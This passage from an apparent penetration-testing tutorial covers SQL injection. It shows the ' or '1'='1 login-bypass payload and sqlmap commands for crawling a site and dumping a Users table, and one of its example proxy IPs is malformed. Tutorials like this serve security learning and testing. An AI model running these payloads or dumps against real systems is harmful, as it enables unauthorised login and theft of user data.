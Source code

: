 Since they both become true the database will retrieve all users and we will be able to bypass the login.

If you know the username you could of course use that and then only inject on the password parameter.

```text
$query = "SELECT * FROM users WHERE username = 'admin' AND password='whatever' OR '1'='1'";
```

## SQLmap

Sqlmap is a great tool to perform sql-injections. Here is the manual. [https://github.com/sqlmapproject/sqlmap/wiki/Usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

### Using sqlmap with login-page

So you need to authenticate before you can access the vulnerable paramter.

You just cature the request using burp suite, and save the requiest in a file. Then your run

```text
sqlmap -r request.txt
```

Since the cookie is saved in the reuqest sqlmap can do it.

### Crawl a page to find sql-injections

```text
sqlmap -u http://example.com --crawl=1
```

### Dumping a database or table

Here we are dumping the database Webapp and the table Users.

```text
sqlmap -r request.txt -p username --dbms=mysql --dump -D Webapp -T Users
```

### Use proxy

```text
--proxy="http://192.2.2.2.2:1111"
```

**Proxy credencials**

```text
--proxy-cred="username:password"
```

## Login bypass

This is the most classic, standard first test:

```text
' or '1'='1
```
